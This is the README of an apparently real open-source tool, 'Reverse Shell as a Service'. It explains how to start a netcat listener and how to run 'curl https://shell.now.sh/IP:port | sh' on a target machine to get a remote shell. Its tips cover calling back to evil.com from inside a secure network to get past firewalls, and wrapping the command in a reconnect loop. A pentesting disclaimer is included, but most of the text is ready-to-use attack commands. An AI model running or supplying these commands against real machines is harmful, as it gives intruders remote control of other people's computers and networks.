 # reverse-shell

> Reverse Shell as a Service

[![Build Status](https://travis-ci.org/lukechilds/reverse-shell.svg?branch=master)](https://travis-ci.org/lukechilds/reverse-shell)
[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)

Easy to remember reverse shell that should work on most Unix-like systems.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://shell.now.sh/yourip:port into sh.

```shell
curl https://shell.now.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/DRqTcLq.gif" width="728">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://shell.now.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with.

```shell
curl https://shell.now.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://shell.now.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

## License

MIT © Luke Childs

